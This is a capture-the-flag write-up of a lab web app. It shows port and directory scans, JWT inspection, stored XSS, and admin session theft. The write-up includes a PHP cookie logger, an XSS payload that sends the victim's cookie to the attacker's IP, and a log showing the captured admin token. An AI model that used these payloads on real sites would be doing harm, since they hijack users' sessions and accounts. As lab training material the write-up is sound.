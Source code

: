 # Flag 1
- Started rustnscan and scanned for ports

```console
❯ rustscan -a 10.10.171.76 --ulimit 5000 -- -sC -sV | tee rustscan.log
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/divu050704/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.171.76:22
Open 10.10.171.76:80
Open 10.10.171.76:32768
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-30 19:20 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:20
Completed NSE at 19:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:20
Completed NSE at 19:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:20
Completed NSE at 19:20, 0.00s elapsed
Initiating Ping Scan at 19:20
Scanning 10.10.171.76 [2 ports]
Completed Ping Scan at 19:20, 3.00s elapsed (1 total hosts)
Nmap scan report for 10.10.171.76 [host down, received no-response]
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:20
Completed NSE at 19:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:20
Completed NSE at 19:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:20
Completed NSE at 19:20, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.86 seconds
```

- Checked out port 80 manually and simultaneously started a `gobuster` scan.
- Signed up and logged in as a test account.
- On checking cookie the token seems to `JWT`, decoded it from [here](https://jwt.io/)

```json
{
  "userId": 4,
  "username": "test",
  "admin": false,
  "iat": 1669816203
}
```

- Tried changing admin and as true, but no success.
- Then a found `XSS`, While creating a new listing.
- Used the following payload to initiate an alert

```html
</h1><script>alert(1)</script>
```
- Got an alert.
- We can also  grab the token for admin by `CSRF`.
- Got a php code to steal cookie from a user 

```php
<?php

	$cookie = $_GET["token"];
	$file = fopen('cookielog.txt', 'a');
	fwrite($file, $cookie . "\n\n");
?>
```

- Started http server on my machine with python under the directory with php code.
- Made a new listing with heading

```html
</h1><script>document.location= "http://10.17.0.215/cookiegrab.php?token=" + document.cookie;</script>
```

- Reported it and got the token 

```console
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.171.76 - - [30/Nov/2022 20:23:51] "GET /cookiegrab.php?token=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2Njk4MjAwMzN9.rlplmkuWntI6i1WzVsqadDxj3drI4_vPdgPY3tJwTIE HTTP/1.1" 200 -
```

- Used this cookie to access admin directory we got from gobuster

```console
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.171.76
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/30 19:30:09 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 153]
/.htaccess            (Status: 403) [Size: 153]
/.htpasswd            (Status: 403) [Size: 153]
/Admin                (Status: 403) [Size: 392]
/admin                (Status: 403) [Size: 392]
/ADMIN                (Status: 403) [Size: 392]
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 857]
/Login                (Status: 200) [Size: 857]
/messages             (Status: 302) [Size: 28] [--> /login]
/new                  (Status: 302) [Size: 28] [--> /login]
/robots.txt           (Status: 200) [Size: 31]
/signup               (Status: 200) [Size: 667]
/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
===============================================================
2022/11/30 19:31:20 Finished
===============================================================
```

- Got the flag

![alt](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/24.png)

